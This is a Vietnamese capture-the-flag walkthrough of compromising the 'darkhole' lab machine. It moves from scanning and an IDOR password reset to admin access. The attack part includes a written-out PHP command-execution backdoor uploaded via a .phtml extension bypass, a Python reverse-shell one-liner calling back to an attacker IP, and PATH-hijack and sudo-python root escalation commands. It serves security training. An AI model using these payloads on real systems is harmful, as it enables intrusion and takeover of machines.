 ## Step 1
Dùng netdiscover để quét ip của máy victim ->192.168.77.251

![image](https://user-images.githubusercontent.com/97771705/224999146-d497a7b0-aa8c-44f6-afe7-c85b530bd6be.png)

Dùng nmap để quét các port tồn tại

![image](https://user-images.githubusercontent.com/97771705/224999373-f0a6423c-cfef-4f3c-8a66-f9a8722a765d.png)

Truy cập vào web darkhole

![image](https://user-images.githubusercontent.com/97771705/224999560-99cd293f-10cf-49ee-843a-a0a54dacaf31.png)

Sử dụng dirsearch, tìm thấy khá nhiều trang thú vị

![image](https://user-images.githubusercontent.com/97771705/225000326-d0af62cb-bf0d-4e34-82d0-019fa00e48e1.png)

Trang config có database.php!! -> truy cập thử nhưng không được :(

![image](https://user-images.githubusercontent.com/97771705/225001082-87b52dc9-9324-49e6-90b7-c5d8c384e3a9.png)

Quay lại trang register và login. Thử IDOR nhưng đã bị chặn

![image](https://user-images.githubusercontent.com/97771705/225001864-2588ea8b-0426-4e95-9922-5c632c07a6cb.png)

![image](https://user-images.githubusercontent.com/97771705/225001912-6d662cb8-a628-4339-beef-5d0f605ec881.png)

Thử change password. Tại burp sửa đổi sang id = 1 vẫn thành công

![image](https://user-images.githubusercontent.com/97771705/225002475-75014042-364e-436e-a72c-282b22621f71.png)

Đoán id=1 chính là admin, đăng nhập thử admin/456 -> vào được trang admin

![image](https://user-images.githubusercontent.com/97771705/225002725-e7d84d51-df93-4dcd-8154-92d8946a66c1.png)

## Step 2
Chức năng upload file chỉ cho phép upload định dạng jpg, png, gif

![image](https://user-images.githubusercontent.com/97771705/225003170-d488cebb-dd45-455f-8528-49504a606f44.png)

Tạo 1 file simple backdoor như sau 
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Lưu nó lại với tên backdoor.txt

Thử upload file và nhờ burp sửa đuôi sang php4,php5.... -> chỉ có đuôi phtml là có thể thực thi được php 

![image](https://user-images.githubusercontent.com/97771705/225006690-595521b6-c1bd-4982-8377-65e21d6ad5f9.png)

Ngoài ra file .phar cũng xài được :)

![image](https://user-images.githubusercontent.com/97771705/225007577-ea4ea1e5-0806-427f-a501-e3026a6ab651.png)

Bắt đầu reverse shell : Sử dụng payload kiếm được trên https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

> python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.77.128",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

Máy parrot nhập command nc -nlvp 4444, sau đó nhaapm reverse shell trên lên url

![image](https://user-images.githubusercontent.com/97771705/225012793-9b45c432-dc42-4734-a754-8b7606677afd.png)


![image](https://user-images.githubusercontent.com/97771705/225012728-786a9ddf-160b-40e5-b089-e14d2d70cdf4.png)

Kết quả: 

![image](https://user-images.githubusercontent.com/97771705/225013005-e82b7184-424c-4aaa-a84b-02c342d90d31.png)

![image](https://user-images.githubusercontent.com/97771705/225692756-136d2f24-a5e0-42a9-a03e-2c3ea2d2abef.png)

Vào thư mục john

![image](https://user-images.githubusercontent.com/97771705/225692527-af3ad033-cce8-41e5-926c-e11564a292a2.png)

Vào thư mục .ssh, không cho ta đọc id_rsa

![image](https://user-images.githubusercontent.com/97771705/225693957-356deb89-fc99-4e11-af7b-51b3c21c5064.png)

Để ý thấy rằng file toto có set quyền SUID, thực thi file này thì ta thấy chương trình run command id với userid là 1001(john), tức là chương trình chạy command id với quyền của john

![image](https://user-images.githubusercontent.com/97771705/225694430-92798b9e-d0a0-4a55-83c1-db75aa299fd8.png)

Ta ghi /bin/bash vào file id tự tạo ở tmp và chèn thư mục tmp lên đầu $PATH. Khi thực thi 1 command trong Linux, hệ thống sẽ tìm kiếm lệnh trong các đường dẫn được khai báo trong biến môi trường PATH, theo thứ tự từ trái sang phải. Nếu tìm thấy lệnh ở nhiều đường dẫn trong biến môi trường PATH thì đường dẫn nào tìm thấy trước từ trái sang phải sẽ được ưu tiên hơn.

> echo '/bin/bash' > /tmp/id; chmod +x /tmp/id; export PATH=/tmp:$PATH

Flag đầu :)

![image](https://user-images.githubusercontent.com/97771705/225697086-107a6060-f30b-4933-ab69-546d93d8afe9.png)

## Step 3
Trong folder john còn 1 file password. Dùng  lệnh sudo -l để kiểm tra danh sách các quyền hạn mà user có thể thực thi bằng sudo trên hệ thống

![image](https://user-images.githubusercontent.com/97771705/225698221-caced74f-a931-4d3d-aa69-96854154a3aa.png)

Có thể thực thi file python3 bằng quyền root :) . Hơn nữa với file file.py ta có quyền write :)

Write vào file rồi run là xong rồi

> echo 'import os;os.system("/bin/bash")' > file.py

> sudo /usr/bin/python3 /home/john/file.py

![image](https://user-images.githubusercontent.com/97771705/225699477-b8795e11-45a7-4538-8df9-acf17067118c.png)




